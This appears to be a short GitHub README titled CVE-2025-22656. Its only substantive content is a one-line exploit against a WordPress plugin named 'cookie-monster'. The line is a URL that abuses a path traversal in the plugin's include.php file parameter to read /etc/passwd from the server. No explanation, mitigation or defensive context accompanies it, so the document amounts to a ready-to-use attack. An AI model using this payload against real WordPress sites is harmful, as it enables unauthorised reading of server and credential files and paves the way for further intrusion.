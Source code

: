 # CVE-2025-22656

## Exploit

- [x] `http://localhost:8080/wp-content/plugins/cookie-monster/include.php?file=../../../../../../etc/passwd`